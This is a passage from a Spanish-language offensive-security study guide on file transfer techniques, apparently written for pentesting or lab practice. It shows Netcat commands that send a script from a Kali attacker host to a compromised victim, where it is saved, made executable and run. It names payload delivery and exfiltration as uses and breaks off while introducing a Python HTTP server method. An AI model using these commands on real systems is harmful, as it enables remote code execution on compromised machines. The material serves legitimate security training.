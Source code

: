 Enviar `script.sh` desde tu Kali a una máquina Linux víctima que **solo tiene Netcat** y no tiene acceso a Internet.

#### 🔽 En Kali (atacante):

```bash
nc -lvnp 9001 < script.sh
```

#### 🔼 En la víctima (ya comprometida, shell activa):

```bash
nc <IP-de-Kali> 9001 > script.sh
chmod +x script.sh
./script.sh
```

---

[🔼](#índice)

---

## **358. Técnicas de transferencia de ficheros**

### 🧠 ¿Qué es la transferencia de ficheros?

Es el proceso de **mover archivos de una máquina a otra a través de una red**, ya sea:

- De tu máquina a un servidor o víctima (subida).
- De una máquina víctima o remota hacia ti (descarga).

Estas técnicas se usan en:

- Desarrollo y pruebas de servidores.
- Automatización de backups.
- Ciberseguridad: post-explotación, entrega de payloads, exfiltración de datos, etc.

---

### 🔧 Técnicas más usadas

Las técnicas más comunes pueden clasificarse según el **protocolo o herramienta usada**. Aquí te explico las más prácticas.

---

#### 1. 🐍 Python HTTP Server + `curl`/`wget` (rápido y universal)

Sirve para **enviar archivos a otras máquinas** usando un servidor HTTP simple.

##### 📦 Instalación:

Solo necesitas tener Python 3 y `curl` o `wget` en la otra máquina.

##### ▶️ Uso:
